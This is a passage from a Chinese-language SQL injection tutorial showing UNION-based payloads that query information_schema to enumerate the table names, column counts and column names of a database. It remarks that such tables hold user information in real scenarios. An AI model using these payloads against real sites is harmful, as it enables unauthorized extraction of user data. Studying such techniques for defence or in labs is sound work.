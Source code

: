 我们需要把问号处换成 0 ~ 6，一个一个尝试，七个表名称就出来了。比如，我们获取第一个表的名称。

![](../img/883fd20dde3236c54612f2e74d5750e9.png)

它叫`email`，在真实场景下，这里面一般就是一部分用户信息了。如果第一个表示无关紧要的信息，可以继续寻找。

### 查询列数量

与表数量的查询类似，我们需要把所有`table`换成`column`。我们构造：

```
1 and 1=2 union select 1,count(column_name) from information_schema.columns where table_name='email'
```

![](../img/b180d35f293b853e5079e7340c033c0a.png)

一共有两个。

### 查询列名

我们把`count`去掉，加上`limit`，就出来了：

```
1 and 1=2 union select 1,column_name from information_schema.columns where table_name='email' limit ?,1
```

同样，我们需要把问号替换为 0 和 1；

![](../img/4724fad39946da97604e5c0907164f5d.png)
